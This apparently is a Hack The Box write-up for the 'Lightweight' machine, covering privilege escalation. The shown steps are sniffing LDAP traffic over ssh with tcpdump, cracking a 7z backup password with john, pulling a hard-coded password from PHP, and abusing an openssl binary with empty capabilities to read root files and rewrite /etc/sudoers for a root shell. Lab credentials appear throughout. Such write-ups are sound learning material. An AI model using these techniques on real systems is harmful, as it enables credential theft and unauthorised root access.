



# 15 - PrivEsc

# Linpeas.sh


| Capabilities name |                Description                 |
| ----------------- | ------------------------------------------ |
| CAP_NET_RAW       | Use RAW and PACKET sockets (sniff traffic) |
https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_net_raw


According to hacktricks we should be able to monitor traffic with this version of tcpdump because it has CAP_NET_RAW capability.

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight]
└──╼ $ ssh -l 10.10.14.18 10.10.10.119 '/usr/sbin/tcpdump -i any -U -w - not port 22' | wireshark -k -i -
10.10.14.18@10.10.10.119's password: 
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
```
Connect to the target box through ssh, run tcpdump and redirect the output to my box for wireshark

# tcpdump
* -i  interface ( tcpdump -D to see all interfaces)
* -U causes the output to write`at the end of each packet` rather than `at the end of each line` (otherwise wireshark thinks packet is damaged)
* -w - writes to stdout
* not port 22 because ssh is encrypted

# wireshark
* -k start capturing immediately
* -i - read from stdin


# LDAP authentication plain text password



Plain text credentials are sent over the network
* ldapuser2:8bc8251332abe1d7f105d3e53ad39ac2

# ldapuser2


# backup.7z
```
[ldapuser2@lightweight ~]$ ls -l
total 1868
-rw-r--r--. 1 root      root         3411 Jun 14  2018 backup.7z
-rw-rw-r--. 1 ldapuser2 ldapuser2 1520530 Jun 13  2018 OpenLDAP-Admin-Guide.pdf
-rw-rw-r--. 1 ldapuser2 ldapuser2  379983 Jun 13  2018 OpenLdap.pdf
-rw-r--r--. 1 root      root           33 Jun 15  2018 user.txt
[ldapuser2@lightweight ~]$ 
```

# Crack 7z Password
```sql
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ perl 7z2hashcat.pl backup.7z  > hash.txt
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes


┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ john hash.txt  -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
delete           (?)
1g 0:00:01:31 DONE (2021-07-09 17:55) 0.01088g/s 22.46p/s 22.46c/s 22.46C/s slimshady..aries
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

* Password: delete
# Extract files
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ 7z x backup.7z
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ ls
7z2hashcat.pl  backup.7z  hash.txt  index.php  info.php  reset.php  status.php  user.php

```

# ldapuser1
```sql
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ cat status.php  | grep -i "username \|password "
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
```

# Shell
```bash
[ldapuser2@lightweight html]$ su - ldapuser1
Password: 
Last failed login: Thu Jul  8 18:00:22 BST 2021 from 10.10.14.18 on ssh:notty
There were 4 failed login attempts since the last successful login.
[ldapuser1@lightweight ~]$ 
```


# Empty Capability
```
[ldapuser1@lightweight ~]$ getcap *
openssl =ep
tcpdump = cap_net_admin,cap_net_raw+ep
[ldapuser1@lightweight ~]$ 
```
Basically, openssl will run as root with empty capability sets.
https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#the-special-case-of-empty-capabilities

# root flag
```bash
[ldapuser1@lightweight ~]$ ./openssl enc -in  /root/root.txt
f1d4e309................
```


# Privilege escalation through sudoers
```bash
[ldapuser1@lightweight ~]$ ./openssl enc -in  /etc/sudoers > sudoers         # read sudoers
[ldapuser1@lightweight ~]$ cat sudoers                                       # add ldapuser1 to the list
## Allow root to run any commands anywhere 
root    ALL=(ALL)       ALL
ldapuser1       ALL=(ALL)       ALL


[ldapuser1@lightweight ~]$ ./openssl enc -in  ./sudoers -out /etc/sudoers    # copy ./sudoers to /etc/sudoers

```
openssl enc module without any cipher will print the file as is

# Root shell
```bash
[ldapuser1@lightweight ~]$ sudo su -
[sudo] password for ldapuser1: 
Last login: Thu Dec  6 14:09:41 GMT 2018 on tty1
[root@lightweight ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```